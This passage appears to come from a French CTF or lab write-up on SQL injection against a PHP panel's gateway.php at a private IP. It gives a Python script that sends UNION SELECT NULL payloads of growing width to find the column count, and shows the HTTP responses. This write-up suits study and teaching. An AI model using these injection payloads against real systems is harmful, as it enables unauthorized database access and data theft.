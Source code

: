 La méthode la plus simple est d'utiliser un UNION mais on ne sait pas combien de colonnes seront nécessaires pour que l'opération réussisse.  

Là encore j'ai écris un script qui teste jusqu'à 10 colonnes en espérant que dans les différentes réponses HTTP on en trouve une qui diffère des autres.  

J'ai eu la bonne idée d'afficher les headers HTTP dans l'output.  

```python
payloads = [
    "' UNION SELECT NULL#",
    "' UNION SELECT NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#",
    "' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL#"
    ]

url = "http://192.168.1.54/Panel/gateway.php"
hdrs = {"Content-Type": "application/x-www-form-urlencoded"}

sess = requests.session()

for p in payloads:
    d = {
            "val": base64.b64encode(key),
            arg: encrypt(p)
        }
    print "payload = {0}".format(p)
    try:
        r = sess.post(url, data=d, headers=hdrs, timeout=3)
        print r.headers
        print r.content
    except:
        print "error !"
        break
    print "=================================="
```

Pour une UNION avec 3 colonnes on s'apperçoit qu'une valeur de cookie différente est retournée :  

```
payload = ' UNION SELECT NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=MjU%3D', --- snip ---

==================================
payload = ' UNION SELECT NULL,NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=MjU%3D', --- snip ---

==================================
payload = ' UNION SELECT NULL,NULL,NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=Mi01', --- snip ---

==================================
payload = ' UNION SELECT NULL,NULL,NULL,NULL#
CaseInsensitiveDict({'content-length': '20', 'x-powered-by': 'PHP/5.4.4-14+deb7u8', 'set-cookie': 'response=MjU%3D', --- snip ---

--- snip ---
```
